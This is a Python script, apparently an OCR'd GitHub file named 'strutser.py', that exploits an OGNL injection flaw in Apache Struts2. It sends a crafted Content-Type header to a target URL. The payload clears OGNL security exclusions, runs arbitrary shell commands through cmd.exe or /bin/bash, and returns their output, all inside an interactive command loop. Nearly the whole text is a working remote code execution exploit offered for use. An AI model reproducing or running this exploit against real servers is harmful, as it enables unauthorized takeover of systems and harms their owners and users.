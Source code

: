 ```
  payload += "(#_memberAccess=#dm):"
  payload += "((#container=#context['com.opensymphony.xwork2.ActionContext.container'])."
  payload += "(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class))."
  payload += "(#ognlUtil.getExcludedPackageNames().clear())."
  payload += "(#ognlUtil.getExcludedClasses().clear())."
  payload += "(#context.setMemberAccess(#dm))))."
  payload += "(#cmd='%s')." % cmd
  payload += "(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win')))."
  payload += "(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd}))."
  payload += "(#p=new java.lang.ProcessBuilder(#cmds))."
  payload += "(#p.redirectErrorStream(true)).(#process=#p.start())."
  payload += "(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream()))."
  payload += "(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros))."
  payload += "(#ros.flush())}"

  # dee bug
  # print(payload)

  # For some reason it started working when piped through Burp proxy
  proxies={}
  if (PROXY != None):
    proxies = {
      'http': PROXY
    }

  # print("gonna run some struts now..")
  headerz = {'User-Agent': 'Mozilla/5.0', 'Content-Type': payload}
  try:
    r = requests.get(URL, headers=headerz, proxies=proxies)
    print("-------------------------------- DA REPLY --------")
    print(r.text)
  except requests.exceptions.ChunkedEncodingError, e:
    pass


# USE LIKE: python strutser.py http://vulnerable.legacy.sys/Monitoring.action http://127.0.0.1:8510
URL = sys.argv[1]
print("URL: " + URL)
proxy = None
if (len(sys.argv) > 2):
  proxy = sys.argv[2]
  print("PROXY URL: " + proxy)
while True:
  try:
    cmd = raw_input('>> ')
  except EOFError:
    break
  runStruts(cmd, URL, proxy)
```


